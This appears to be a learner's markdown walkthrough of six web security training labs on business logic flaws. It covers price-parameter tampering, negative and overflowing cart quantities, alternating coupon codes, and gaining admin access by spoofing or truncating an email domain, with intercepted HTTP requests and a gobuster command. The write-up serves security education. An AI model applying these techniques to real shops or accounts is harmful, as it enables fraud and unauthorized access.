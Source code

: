 # Business logic vulnerabilities


<details>
  <summary>Lab: Excessive trust in client-side controls</summary>

1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request

```http
POST /cart HTTP/1.1
Host: 0a43003003147e1c811880e3005d006f.web-security-academy.net
Cookie: session=4kC0DYbpfMKStrmFfEaBoLoLBYYPDH5K
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0a43003003147e1c811880e3005d006f.web-security-academy.net
Referer: https://0a43003003147e1c811880e3005d006f.web-security-academy.net/product?productId=17
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive



productId=17&redir=PRODUCT&quantity=1&price=4817
```



set ``price`` to ``1``

```url
productId=17&redir=PRODUCT&quantity=1&price=1
```

back to cart and cilck ``place order``

![image](https://github.com/user-attachments/assets/2b7dbfc5-e7ed-4038-b01e-bb46220eaa69)



  
</details>







<details>
  <summary>Lab: High-level logic vulnerability</summary>

1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request

```http
POST /cart HTTP/1.1
Host: 0a43003003147e1c811880e3005d006f.web-security-academy.net
Cookie: session=4kC0DYbpfMKStrmFfEaBoLoLBYYPDH5K
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0a43003003147e1c811880e3005d006f.web-security-academy.net
Referer: https://0a43003003147e1c811880e3005d006f.web-security-academy.net/product?productId=17
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive



productId=1&redir=PRODUCT&quantity=1
```

Notice that there is not ``price`` parameter but there is ``quantity`` try to put it with negative:

```url
productId=1&redir=PRODUCT&quantity=-1
```
notice that the price also became negative

![image](https://github.com/user-attachments/assets/b198bffa-1368-4b26-b5c1-5901bdd4fc4f)

if you click ``place order`` this error appear

```http
Cart total price cannot be less than zero
```

> ### now try to shoose cheep product and add it more than one time with negative and add the wanted product just one time with positive:

![image](https://github.com/user-attachments/assets/4a57f6fa-320e-400f-9596-54e2305cf0f3)


  
</details>










<details>
  <summary>Lab: Inconsistent security controls</summary>

1. after doing enumration

```
gobuster dir -u https://0a4800b704e8549d827179ca0018004d.web-security-academy.net -w /home/kali/Downloads/wordlists/directory-list-2.3-medium.txt 
```
![image](https://github.com/user-attachments/assets/25a10fc0-e937-49c5-9888-c7c06a2ce3b5)

2. try to navigate ``/amdin`` found

![image](https://github.com/user-attachments/assets/ae0455f2-bc54-4b03-ada3-65bfddb111bf)

```
Admin interface only available if logged in as a DontWannaCry user 
```

3. when rigester found this note

```http
If you work for DontWannaCry, please use your @dontwannacry.com email address
```

4. after rigester change ``email`` to ``anyname@dontwannacry.com``

![image](https://github.com/user-attachments/assets/e42e3404-ed42-4b35-b3f6-00c66de07a09)
  
6. now you have acccess to ``/admin``
7. delete ``carlos``

  
</details>








<details>
  <summary>Lab: Flawed enforcement of business rules</summary>


1. login using ``wiener:peter``
2. noties that there is coupon code

![image](https://github.com/user-attachments/assets/33b61cbd-4518-483e-aa65-708598452798)

```
NEWCUST5
```

3. At the bottom of the page, sign up to the newsletter. You receive another coupon code, ``SIGNUP30``.
> ### 4. try applying the codes more than once. Notice that if you enter the same code twice in a row, it is rejected because the coupon has already been applied. However, if you alternate between the two codes, you can bypass this control. 

![image](https://github.com/user-attachments/assets/e559ab83-5443-4e58-a997-690205f73749)

5. click ``place order``


  
</details>














<details>
  <summary>Lab: Low-level logic flaw</summary>


1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request
4. if you add a larg number of `quantity` the ``price`` will happend ``integer overflow`` and it will count from negtive

```http
POST /cart HTTP/2
Host: 0a4f008503c158c382ac42ea00130067.web-security-academy.net
Cookie: session=F1AyWAioFLqVDYMZxyMuY0MDZzrYqBcj
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0a4f008503c158c382ac42ea00130067.web-security-academy.net
Referer: https://0a4f008503c158c382ac42ea00130067.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers



productId=1&redir=PRODUCT&quantity=90
```

5. you need   ``2147483647 / 133700 = ~16061 `` jacked
6. you will send this request ``162`` time

```url
productId=1&redir=PRODUCT&quantity=99
```

![image](https://github.com/user-attachments/assets/aaf9f3d3-dd79-4038-9aec-f36de6ade157)

![image](https://github.com/user-attachments/assets/d7e834db-2b69-4c2b-b9a9-642b59ab67c3)

7. now try to buy cheep product more than one time until reach ``small positive`` price
8. now click ``place order``



  
</details>













<details>
  <summary>Lab: Inconsistent handling of exceptional input</summary>


* when ``rigester`` notice :

```http
If you work for DontWannaCry, please use your @dontwannacry.com email address
```

* rigester with any credintionals ``user : 123``
* if you try to navgate ``/admin``

  <img width="891" height="310" alt="image" src="https://github.com/user-attachments/assets/83a40260-124f-4337-ad9e-321ed8b07c98" />

```http
Admin interface only available if logged in as a DontWannaCry user 
```


- > now try to login with
  > ```
  > username: hack1
  > email: very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string@exploit-0a2800d2030d83c3813fb53a01b800e2.exploit-server.net
  > password: 123
  > ```

found the email cutted:

<img width="1247" height="312" alt="image" src="https://github.com/user-attachments/assets/5a6adc6b-c13c-45a0-960e-c5e91138487a" />


- > now try to login with
  > ```
  > username: hack2
  > email: very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-stringAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@dontwannacry.com.exploit-0a2800d2030d83c3813fb53a01b800e2.exploit-server.net
  > password: 123
  > ```

now the email end with ``@dontwannacry.com`` and ``admin panal`` tap appear

<img width="1349" height="365" alt="image" src="https://github.com/user-attachments/assets/18bee200-6ea4-4307-8f56-6bb90a39a8ad" />

<img width="1284" height="461" alt="image" src="https://github.com/user-attachments/assets/f7776dd8-d20f-4df4-96e8-63654fa402e2" />


  
</details>


















